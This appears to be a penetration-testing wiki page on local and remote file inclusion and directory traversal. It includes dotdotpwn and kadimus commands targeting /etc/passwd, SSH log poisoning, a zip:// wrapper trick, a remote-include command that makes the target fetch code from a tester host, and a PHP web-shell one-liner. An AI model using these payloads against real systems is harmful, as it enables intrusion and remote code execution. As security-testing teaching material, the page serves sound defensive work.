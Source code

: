 # 🛠️ File inclusion

## Theory

Many web applications manage files and use server-side scripts to include them. When input parameters \(cookies, GET or POST parameters\) used in those scripts are insufficiently validated and sanitized, these web apps can be vulnerable to file inclusion.

LFI/RFI \(Local/Remote File Inclusion\) attacks allow attackers to read sensitive files, include local or remote content that could lead to RCE \(Remote Code Execution\) or to client-side attacks such as XSS \(Cross-Site Scripting\).

Directory traversal \(a.k.a. path traversal, directory climbing, backtracking, the dot dot slash attack\) attacks allow attackers to access sensitive files on the file system, outside the web server directory. File inclusion attacks can leverage a directory traversal vulnerability to include files with a relative path.

## Practice

Testers need to identify input vectors \(parts of the app that accept content from the users\) that could be used for file related operations. For each identified vector, testers need to check if malicious strings and values successfully exploit any vulnerability.

* **Local File Inclusion** : inclusion of a local file \(in the web server directory\) using an absolute path
* **LFI + directory traversal** : inclusion of a local file \(in the web server directory or not\) by "climbing" the server tree with `../` \(relative path\)
* **Remote File Inclusion** : inclusion of a remote file \(not on the server\) using an URI

The tool [dotdotpwn](https://github.com/wireghoul/dotdotpwn) \(Perl\) can help finding and exploiting directory traversal vulnerabilities by fuzzing the web app. However, manual testing is usually more efficient.

```bash
# With a request file where /?argument=TRAVERSAL (request file must be in /usr/share/dotdotpwn)
dotdotpwn.pl -m payload -h $RHOST -x $RPORT -p $REQUESTFILE -k "root:" -f /etc/passwd

# Generate a wordlist in STDOUT that can be used by other fuzzers (ffuf, gobuster...)
dotdotpwn -m stdout -d 5
```

The tool [kadimus](https://github.com/P0cL4bs/Kadimus) \(C\) can help finding and exploiting File Inclusion vulnerabilities. However, manual testing is usually more efficient.

```bash
kadimus --user-agent "PENTEST" -u '$URL/?parameter=value'
```

Depending on the environment, file inclusions can sometimes lead to RCE \(Remote Code Execution\) by including a local file containing code previously injected by the attacker or a remote file containing code that the server can execute.

Local file inclusions can sometimes be combined with other vulnerabilities to achieve code execution

* directory traversal
* null-byte injection
* unrestricted file upload
* log poisoning

### 🛠️ LFI to RCE \(via logs poisoning\)

For instance, the tester can try to log in with SSH using a crafted login. On a Linux system, the login will be echoed in `/var/log/auth`. By exploiting a Local File Inclusion, the attacker will be able to make the crafted login echoed in this file interpreted by the server.

```bash
ssh '<?php phpinfo(); ?>'@$TARGET
curl --user-agent "PENTEST" $URL/?parameter=/var/log/auth.log&cmd=id
```

🛠️ Introduce other examples, like apache session logs

### 🛠️ LFI to RCE \(via phpinfo\)

### 🛠️ LFI to RCE \(via file upload\)

### 🛠️ LFI to RCE \(via php wrappers\)

🛠️ Introduce php wrappers

PHP wrappers can be combined with a [file upload](unrestricted-file-upload.md) to achieve RCE.

1. Upload a `.zip` file containing a PHP code execution script \(`rce.php`\)
2. Trigger the code execution by requesting `http://some.website/?page=zip://path/to/file.zip%23rce.php`.

### RFI to RCE

The tester can create a `phpinfo.php` containing `<?php phpinfo(); ?>` and use a simple HTTP server so that the target application can fetch it. When exploiting the RFI to include the `phpinfo.php` file, the tester server will send the plaintext PHP code to the target server that should execute the code and show the phpinfo in the response.

{% hint style="warning" %}
If the the tester server used to host the `phpinfo.php` file can interpret PHP, it will. The tester will not achieve code execution on the target server but on his own instead. A simple HTTP server will do.
{% endhint %}

```bash
# Create phpinfo.php
echo '<?php phpinfo(); ?>' > phpinfo.php

# Start a web server
python3 -m http.server 80

# Exploit the RFI to fetch the remote phpinfo.php file
curl '$URL/?parameter=http://tester.server/phpinfo.php'
```

If the phpinfo has been successfully printed in the response, the tester can engage a more offensive approach by trying to execute code with one of the following payloads.

{% hint style="info" %}
As code execution functions can be filtered, the phpinfo testing phase is required to assert that arbitrary PHP code is included and interpreted.
{% endhint %}

```php
<?php system('whoami'); ?>
<?php exec('whoami'); ?>
<?php passthru('whoami'); ?>
<?php shell_exec('whoami'); ?>
<?php if(isset($_REQUEST['cmd'])){ echo "<pre>"; $cmd = ($_REQUEST['cmd']); system($cmd); echo "</pre>"; die; }?>
```

## References

{% embed url="https://www.acunetix.com/websitesecurity/directory-traversal" caption="" %}

{% embed url="https://portswigger.net/web-security/file-path-traversal" caption="" %}

{% embed url="https://owasp.org/www-project-web-security-testing-guide/latest/4-Web\_Application\_Security\_Testing/05-Authorization\_Testing/01-Testing\_Directory\_Traversal\_File\_Include.html" caption="Directory traversal and File Include" %}

{% embed url="https://owasp.org/www-community/attacks/Path\_Traversal" caption="Testing for Directory traversal" %}

{% embed url="https://owasp.org/www-project-web-security-testing-guide/latest/4-Web\_Application\_Security\_Testing/07-Input\_Validation\_Testing/11.2-Testing\_for\_Remote\_File\_Inclusion.html" caption="Testing for Remote File Inclusion" %}

{% embed url="https://owasp.org/www-project-web-security-testing-guide/latest/4-Web\_Application\_Security\_Testing/07-Input\_Validation\_Testing/11.1-Testing\_for\_Local\_File\_Inclusion.html" caption="Testing for Local File Inclusion" %}

{% embed url="https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Directory%20Traversal" caption="" %}

{% embed url="https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/File%20Inclusion" caption="" %}

